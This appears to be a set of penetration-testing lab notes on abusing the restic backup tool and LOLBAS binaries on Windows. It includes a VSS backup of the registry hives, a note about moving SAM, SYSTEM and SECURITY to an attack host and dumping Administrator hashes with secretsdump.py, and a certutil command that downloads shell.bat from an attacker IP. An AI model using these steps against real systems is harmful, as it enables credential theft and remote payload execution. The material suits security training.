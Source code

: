 #### restic - Back up a Directory
```PowerShell
$env:RESTIC_PASSWORD = 'Password'
```

```PowerShell
restic.exe -r E:\restic2\ backup C:\SampleFolder
```

If we want to back up a directory such as `C:\Windows`, which has some files actively used by the operating system, we can use the option `--use-fs-snapshot` to create a VSS (Volume Shadow Copy) to perform the backup.

#### restic - Back up a Directory with VSS
```PowerShell
restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot
```

*Note: If the user doesn't have the rights to access or copy the content of a directory, we may get an Access denied message. The backup will be created, but no content will be found.*

#### restic - Check Backups Saved in a Repository
```PowerShell
restic.exe -r E:\restic2\ snapshots
```
If we navigate to `C:\Restore`, we will find the directory structure where the backup was taken. To get to the `SampleFolder` directory, we need to navigate to `C:\Restore\C\SampleFolder`.

#### restic - Restore a Backup with ID
```PowerShell
restic.exe -r E:\restic2\ restore 9971e881 --target C:\Restore
```

***Lab note: After restoring backup for Windows/System32/config, I moved the SAM, SYSTEM, and SECURITY files to the attack host over SMB and used `secretsdump.py` to obtain the Administrator's hashes*

## Miscellaneous Techniques

### Living Off The Land Binaries and Scripts (LOLBAS)

 [LOLBAS project](https://lolbas-project.github.io/)

#### Transferring File with Certutil
```PowerShell
certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

#### Encoding File with Certutil
```cmd.exe
certutil -encode file1 encodedfile
```

#### Decoding File with Certutil
```cmd.exe
certutil -decode encodedfile file2
```
